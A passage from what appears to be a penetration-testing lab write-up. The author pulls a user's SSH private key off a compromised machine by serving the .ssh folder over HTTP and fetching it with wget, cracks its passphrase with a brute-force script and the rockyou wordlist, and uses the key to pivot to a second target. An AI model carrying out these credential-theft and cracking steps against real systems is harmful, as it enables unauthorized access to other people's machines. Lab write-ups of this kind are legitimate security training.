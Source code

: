 So, we download /home/capt/.ssh/id_rsa and id_rsa.pub files locally to our Kali machine:

    cd /home/capt/.ssh
    python3 -m http.server 17011

On our Kali machine:

wget http://67.205.146.156:17011/id_rsa
wget http://67.205.146.156:17011/id_rsa.pub

When the above steps are complete, our terminal windows show:

![](/images/boykin_lab/49. python_http.png)
![](/images/boykin_lab/50. wget.png)

Next, we look for a way to crack the password. Some Google searching on Github revealed the following script: [https://github.com/readonlymaio/mm_id_rsa_bruteforce](https://github.com/readonlymaio/mm_id_rsa_bruteforce)

This bash script uses ssh-keygen to bruteforce a list of passwords against the id_rsa file.  Note: In the below, after downloading the script from the above github link, I renamed the script “ssh_crack.sh”.

    ./ssh_crack.sh /usr/share/wordlists/rockyou.txt id_rsa

![](/images/boykin_lab/51. ssh_crack.png)

Now we have the password aXXXXXX3 for the id_rsa, we can try using it to ssh to 10.136.0.4 (Target machine 2) from our current machine (Target machine 1):

    ssh -i id_rsa capt@10.136.0.4

![](/images/boykin_lab/52. ssh.png)

<p>&nbsp;</p>
=======================================================

## Target Machine 2

=======================================================

And we have made it to Target machine 2.  Right away from the login screen we can see the public IP of this machine is 157.245.141.85.  We can close this ssh session and connect directly from our Kali machine:

    ssh -i id_rsa capt@157.245.141.85

![](/images/boykin_lab/53. ssh_fail.png)

And here I forgot to chmod the id_rsa file to a more secure permissions setting prior to trying to use it.  ssh detects the file is not secured and will not allow its use.

    chmod 600 id_rsa
    ssh -i id_rsa capt@157.245.141.85

![](/images/boykin_lab/54. chmod.png)

